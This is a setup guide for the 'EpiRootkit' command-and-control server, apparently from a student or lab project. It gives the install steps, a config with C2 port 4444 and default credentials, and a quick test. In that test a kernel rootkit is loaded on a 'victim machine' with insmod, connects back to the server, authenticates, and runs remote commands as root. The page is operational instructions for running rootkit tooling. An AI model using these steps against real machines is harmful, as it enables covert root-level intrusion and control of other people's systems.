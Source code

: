 ```yaml
---
title: "Installation"
description: "Step-by-step installation and setup guide"
icon: "download"
date: "2025-05-25T00:00:00+01:00"
lastmod: "2025-05-25T16:00:00+01:00"
draft: false
toc: true
weight: 302
---
```


# Installation Guide

Setup instructions for the EpiRootkit C2 server.

## Prerequisites

### Required Software
- **Node.js**: Version 18+ 
- **pnpm**: Package manager (recommended)

### Verify Installation
```bash
node --version
# v18.17.0

pnpm --version
# 8.6.2

# Install pnpm if missing
npm install -g pnpm
```

## Installation

### 1. Install Dependencies
```bash
cd attacking_program
pnpm install
# ✓ Dependencies installed successfully
```

### 2. Review Configuration
```bash
cat config.env
```

**Default Settings:**
```bash
# Server ports
C2_PORT=4444                    # C2 server port
WEB_PORT=3000                   # Web interface port

# Authentication (SHA-512 of "password")
PASSWORD_HASH=b109f3bbbc244eb82441917ed06d618b9008dd09b3befd1b5e07394c706a8bb980b1d7785e5976ec049b46df5f1326af5a2ea6d103fd07c95385ffab0cacbc86

# Encryption
ENCRYPTION_KEY=0123456789abcdef0123456789abcdef  # 32-char hex key
ENABLE_ENCRYPTION=true
```

### 3. Start Server
```bash
pnpm start
# ✓ Server started on port 4444
# ✓ Web interface started on port 3000
# c2-server$ 
```

## Verification

### CLI Interface
```bash
# Test CLI commands
help
# EpiRootkit C2 Commands
# clients                    - List connected clients
# auth <client> <password>   - Authenticate with client
# ...

ls
# No clients connected (initially)
```

### Web Interface
Access at: `http://localhost:3000`
- Login with password: `password`
- Dashboard shows connected clients
- All CLI features available via web

## Configuration Options

### Change Ports
```bash
# Edit config.env
C2_PORT=8080        # Custom C2 port
WEB_PORT=8000       # Custom web port
```

### Change Password
```bash
# Generate new SHA-512 hash
echo -n "newpassword" | sha512sum
# Copy the hash to config.env as PASSWORD_HASH
```

### Disable Encryption
```bash
# Edit config.env
ENABLE_ENCRYPTION=false
```

## Quick Test

### 1. Connect Rootkit (victim machine)
```bash
sudo insmod epirootkit.ko
# C2 shows: ✓ Client-1 Connected
```

### 2. Authenticate
```bash
auth Client-1 password
# ✓ Authenticated
# SUCCESS: Authentication successful
```

### 3. Test Commands
```bash
exec Client-1 whoami
# Exit code: 0
# Output: root

status Client-1
# EpiRootkit Status: Version 1.0.0, Authentication: YES
```

